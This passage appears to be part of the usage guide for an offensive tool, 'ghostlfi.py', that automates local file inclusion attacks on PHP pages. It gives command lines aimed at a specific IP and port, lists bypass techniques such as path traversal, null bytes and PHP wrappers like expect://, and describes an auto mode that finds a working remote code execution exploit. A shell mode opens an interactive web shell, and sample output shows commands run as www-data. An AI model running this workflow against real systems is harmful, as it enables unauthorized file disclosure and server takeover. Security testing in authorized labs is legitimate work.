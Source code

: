 
### Step 3: Test LFI Bypasses
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --test-bypass

# Tests:
# - Path traversal (../, ../../, etc.)
# - Null byte injection (%00)
# - URL encoding
# - Double encoding
# - PHP wrappers (php://filter, expect://, data://)
# - 40+ bypass techniques
```

---

### Step 4: Automatic Exploitation (Recommended!)
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --auto

# Automatically:
# 1. Tests all LFI bypasses
# 2. Tests PHP wrappers
# 3. Tests for RCE
# 4. Finds working exploit
# 5. Shows you the payload
```

---

### Step 5: Get Interactive Shell
```bash
python3 ghostlfi.py \
  -u http://94.237.57.211:45888/index.php \
  -p view \
  --auto \
  --shell

# If RCE found:
# - Interactive web shell
# - Run commands directly
# - File operations
# - System enumeration

# Example:
ghostops@target:~$ whoami
www-data
ghostops@target:~$ pwd
/var/www/html
ghostops@target:~$ ls -la
total 48
drwxr-xr-x 3 www-data www-data 4096 Oct 16 15:10 .
```

---